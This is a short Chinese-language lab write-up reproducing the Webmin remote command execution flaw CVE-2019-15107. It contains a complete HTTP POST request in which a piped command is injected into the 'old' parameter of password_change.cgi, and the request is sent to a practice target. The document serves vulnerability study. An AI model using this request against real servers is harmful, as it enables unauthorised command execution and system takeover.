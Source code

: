 #  Webmin远程命令执行漏洞（CVE-2019-15107）by [hu4wufu](https://github.com/hu4wufu)

## 概述

Webmin 被爆出1.920版本之前存在一个远程命令执行漏洞（CVE-2019-15107），当用户开 Webmin 密码重置功能后，攻击者利用该漏洞可在易受损系统中执行任意命令，进而获取系统 Shell。由于Webmin 中 Password_Change.cgi 在接收请求的处理过程中，old 参数存在命令注入漏洞，可被攻击者恶意利用。

## 影响版本

Webmin 1.920及以下版本。

## 漏洞复现

1、打开靶场，开启Webmin的漏洞环境。

![image-20200821155246605](.\image-20200821155246605.png)

2、抓取数据包，修改数据，利用poc进行验证，发现有回显。

![image-20200821155231196](.\image-20200821155231196.png)

```
POST /password_change.cgi HTTP/1.1
Host: 118.193.36.37:9211
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Origin: https://118.193.36.37:9211
Connection: close
Referer: https://118.193.36.37:9211/
Cookie: redirect=1; testing=1
Upgrade-Insecure-Requests: 1

user=rootxx&pam=&expired=2&old=test|ls /tmp&new1=test2&new2=test2

```

3、直接查看FLag

![image-20200821155159221](.\image-20200821155159221.png)

